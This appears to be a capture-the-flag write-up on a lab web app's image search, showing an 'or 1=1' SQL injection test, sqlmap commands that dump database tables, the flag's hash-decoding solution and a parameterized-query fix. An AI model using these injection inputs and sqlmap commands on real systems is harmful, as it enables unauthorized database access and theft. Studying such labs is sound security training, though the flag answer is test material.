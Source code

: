 VULNERABILTY__
 ```bash 
   => Search image tag, is vulnerable to sql injection.```


EXPLOIT_:
 ```bash 
    step1 ) => see if the sight reposnds to an SQL Injection
    nu typing  [ 1 or 1 = 1], in the search bar and then press Enter.

    step 2) => if the page returns information about an image,
        open terminal, copy the URL and paste in sqlmap
        like so,

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --tables

        => this should return the schema's of the database.
        => then 

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --dump -T list_images

        ^ should retune the table: ```
        
 ```bash       
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

    => copy and paste " 1928e8083cf461a51303633093573c46" on  "https://www.md5online.org/md5-decrypt.html" to get
    a decoded string i.e "albatroz", then then type "abatroz" in "https://passwordsgenerator.net/sha256-hash-generator/"
    to get the Flag "5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B"

```bash
 1928e8083cf461a51303633093573c46 => albaroz => 5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B
 ```

SOLUTION:
```bash
    Use SQL Parameters (parametized Queries)
     for Protection e.g txtNam = getRequestString("CustomerName");
                        txtAdd = getRequestString("Address");
                        txtCit = getRequestString("City");
                        txtSQL = "INSERT INTO Customers (CustomerName,Address,City) Values(@0,@1,@2)";
                        db.Execute(txtSQL,txtNam,txtAdd,txtCit);
                        ```

    => use prepared statements  and  stored procedure                              
  
